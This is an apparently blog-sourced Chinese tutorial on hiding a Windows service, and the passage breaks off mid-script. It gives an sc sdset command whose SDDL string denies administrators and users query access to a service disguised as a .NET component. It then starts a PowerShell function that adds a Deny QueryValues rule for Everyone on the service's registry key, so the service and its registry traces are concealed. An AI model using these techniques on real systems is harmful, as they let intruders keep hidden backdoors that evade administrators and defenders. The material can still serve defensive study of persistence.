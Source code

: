 安全描述符包含与安全对象关联的安全信息。安全描述符包含安全描述符结构及其关联的安全信息。安全描述符可以包含以下安全信息：

  * 对象的所有者和主要组的 Sid（安全标识符）
  * 用于指定允许或拒绝特定用户或组的访问权限的 DACL 。
  * 指定为对象生成审核记录的访问尝试类型的 SACL 。
  * 一组限制安全描述符或其各个成员的含义的控制位。

windows中的安全对象都使用SDDL字符串来表示访问对象对于安全对象的权限，服务自然也存在其SDDL，并且sc命令中可以设置SDDL。那么通过更改SDDL可以修改服务的各种权限来隐藏服务：

    
    
    sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091801.png)

然后通过sc与get-server查找服务均无结果：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091802.png)

并且服务也不再显示：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091803.png)

在知道服务名的前提下查询会显示拒绝访问：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091804.png)

但这样做有一个问题：在注册表中很容易看到异常value。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091805.png)

# 修改注册表ACL

我们可以通过修改注册表的DACL来拒绝对值的查询，达到隐藏异常值的效果。

这里给出一个通过powershell修改注册表项的访问权限的简单脚本：

    
    
    function Server-Sddl-Change{  
    [CmdletBinding()]  
        param  
        (  
            [parameter(Mandatory=$false)][String]$Name  
        )  
    $ROOT = "HKLM:\SYSTEM\CurrentControlSet\Services\"  
    $S = $ROOT+$NAME  
    $acl = Get-Acl $S  
    $acl.SetAccessRuleProtection($true, $false)  
      
    $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"QueryValues"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Deny"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      